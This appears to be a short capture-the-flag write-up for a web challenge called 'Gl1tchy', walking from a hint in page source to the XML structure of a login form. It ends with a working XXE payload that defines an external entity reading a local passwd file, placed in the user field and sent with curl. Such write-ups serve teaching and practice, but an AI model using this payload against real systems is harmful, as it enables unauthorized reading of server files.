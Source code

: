# Gl1tchy

> web

Author: [whitex](https://github.com/najeh-halawani)

Glitchs are very annoying, we hate them. Maybe the user stays with you 😉

## Writeup

### Recon

Apparently the website has nothing, but when reviewing the source code we see the following comment:

![Website Homepage](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Gl1tchy/homepage.png)
![Source Code](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Gl1tchy/source-code.png)


# Read Source code... check XML 

# Try to understand the structure of the xml 

```
<creds>
  <user>whitex</user>
</creds>
```

# No need for <pass> </pass>
# Final payload

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///tmp/passwd" >]>
<creds>
 <user>&xxe;</user>
 <pass>mypass</pass>
</creds>
```

# trigger the payload using curl

```curl -d @xxe http://ip```
